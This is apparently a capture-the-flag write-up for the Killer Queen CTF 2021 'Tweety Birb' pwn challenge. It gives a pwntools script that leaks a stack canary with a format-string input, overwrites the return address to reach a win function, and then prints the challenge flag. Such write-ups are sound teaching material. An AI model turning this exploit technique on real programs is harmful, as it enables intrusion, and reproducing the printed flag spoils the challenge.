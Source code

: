 ```yaml
---
name: Tweety Birb (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Tweety Birb (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tweety Birb

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=2382s "Killer Queen 2021: Tweety Birb")

## Challenge Description

> Pretty standard birb protection

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4011de
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tweetybirb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 72  # IP offset
ret = 0x40101a  # Stack alignment

# Leak canary value (15th on stack)
io.sendlineafter('magpies?', '%{}$p'.format(15))
io.recvline()
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

payload = flat([
    offset * asm('nop'),
    canary,
    8 * asm('nop'),
    ret,
    elf.symbols.win
])

# Send the payload
io.sendlineafter('fowl?', payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`
